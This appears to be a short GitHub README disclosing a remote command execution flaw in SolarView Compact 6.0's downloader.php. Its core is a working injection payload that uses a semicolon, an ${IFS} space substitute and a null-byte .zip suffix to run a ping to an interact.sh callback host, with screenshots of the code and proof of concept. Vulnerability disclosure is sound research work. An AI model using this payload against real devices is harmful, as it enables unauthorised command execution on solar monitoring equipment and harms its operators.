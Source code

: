 # SolarView_Compact_6.0_RCE

### Vulnerability code is downloader.php

![image](https://user-images.githubusercontent.com/72059221/169169647-d0fae978-4444-4b38-8d24-4f5978bdea3b.png)

### Payload

```
;ping${IFS}111.ca2qhk62vtc0000cd1zggfbma3wyyyyyb.interact.sh%00.zip
```

### POC

![image](https://user-images.githubusercontent.com/72059221/169169949-3193cfe2-3846-43e9-8a01-9fb1c756b0fa.png)

